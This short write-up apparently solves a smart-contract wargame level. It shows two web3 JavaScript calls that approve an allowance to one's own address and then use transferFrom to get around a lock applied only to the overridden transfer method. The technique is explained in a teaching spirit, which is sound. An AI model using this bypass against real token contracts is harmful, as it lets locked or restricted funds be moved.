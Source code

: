 ```javascript
await contract.methods['approve(address,uint256)']("--my-address--", "1000000000000000000000000");
await contract.methods['transferFrom(address,address,uint256)']("--my-address--", "--other-address--", "1000000000000000000000000")
```

The code is only overriding one of the transfer methods, hence
**transferFrom** can still be called after giving an allowance
to ourselves. Was surprised to see that allowance is needed for
the owner address too.